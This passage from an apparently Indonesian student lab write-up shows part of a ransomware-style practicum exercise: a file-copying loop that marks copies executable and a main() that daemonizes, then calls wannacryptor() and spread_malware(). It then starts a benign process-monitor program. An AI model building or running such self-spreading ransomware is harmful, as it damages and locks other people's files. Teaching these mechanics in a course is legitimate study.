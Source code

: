         char buf[4096];
        size_t bytes;
        while ((bytes = fread(buf, 1, sizeof(buf), src)) > 0) {
            fwrite(buf, 1, bytes, dst);
        }

        fclose(src);
        fclose(dst);
        chmod(target_path, 0755);
    }
    closedir(dir);
     }
</pre>
8. Function main untuk menjalankan seluruh function diatas
<pre>
     int main() {
    daemonize();
    sleep(5);
    wannacryptor();
    spread_malware(); 
    while (1) sleep(10);
}
</pre>
<h3>Note untuk soal 3</h3>
kodenya bisa diselesaikan lagi sampai selesai.

# Soal 4
Pada soal  ini kita diminta untuk membuat sebuah program debugmon yang dapat memantau semua aktivitas di komputer.

1. Header dan Definisi
   ```c
    #define _GNU_SOURCE

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <dirent.h>
    #include <unistd.h>
    #include <pwd.h>
    #include <sys/types.h>
    #include <ctype.h>
    #include <signal.h>
    #include <time.h>
    #include <sys/stat.h> ```</pre>
    * Mengaktifkan fitur tambahan dari GNU C Library
    * Header untuk operasi file, direktori, pengguna, sinyal, waktu, dan sebagainya
      
2. Fungsi Log Aktivitas
   <pre>
    void log_entry(const char *username, const char *procname, const char *status) {
        FILE *log = fopen("debugmon.log", "a");
        if (!log) return;

        time_t now = time(NULL);
        struct tm *t = localtime(&now);
        char timestamp[64];
        strftime(timestamp, sizeof(timestamp), "[%d:%m:%Y]-%H:%M:%S", t);

        fprintf(log, "%s_%s_%s\n", timestamp, procname, status);
        fclose(log);
    } </pre>
   ```
